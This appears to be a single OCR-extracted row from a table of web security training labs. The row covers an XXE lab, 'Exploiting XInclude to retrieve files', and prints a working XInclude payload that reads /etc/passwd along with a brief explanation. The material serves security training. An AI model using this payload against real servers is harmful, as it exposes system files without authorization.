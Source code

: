 |73    |Exploiting XInclude to retrieve files                                                                                    |<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |Don't control the entire XML document you can't define a DTD to launch a classic https://portswigger.net/web-security/xxe  attack.  Use XInclude statement to retrieve the contents of the /etc/passwd file                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |Practitioner, XXE                           |